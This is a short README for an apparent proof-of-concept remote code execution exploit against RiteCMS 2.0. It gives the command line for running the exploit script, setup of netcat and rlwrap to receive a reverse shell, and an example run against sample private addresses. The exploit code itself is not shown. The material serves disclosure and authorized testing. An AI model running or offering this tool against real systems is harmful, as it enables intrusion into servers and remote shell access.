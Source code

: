 # RiteCMS 2.0 Remote Code Execution PoC

This is a proof-of-concept for a **Remote Code Execution (RCE)** vulnerability in RiteCMS 2.0.

## Usage
```bash
python3 ritecms2.0-exploit.py -i <Your-IP> -t <Target-IP> -p <Port>
```

## Requirements
- Python 3.x
- `requests` library (`pip3 install requests`)
- Netcat (`nc`) and `rlwrap` for listening to the reverse shell

```bash
sudo apt install rlwrap netcat
pip3 install requests
```

## Steps to Reproduce
```bash
git clone https://github.com/x0root/RiteCMS-2.0-RCE-PoC
cd RiteCMS-2.0-RCE-PoC
python3 ritecms2.0-exploit.py -i 192.168.1.10 -t 192.168.1.20 -p 4444
```

## Notes
- Only works on RiteCMS 2.0 with default credentials.
- Ensure your environment allows PHP execution in uploaded directories.
- Use responsibly and only on systems you are authorized to test.
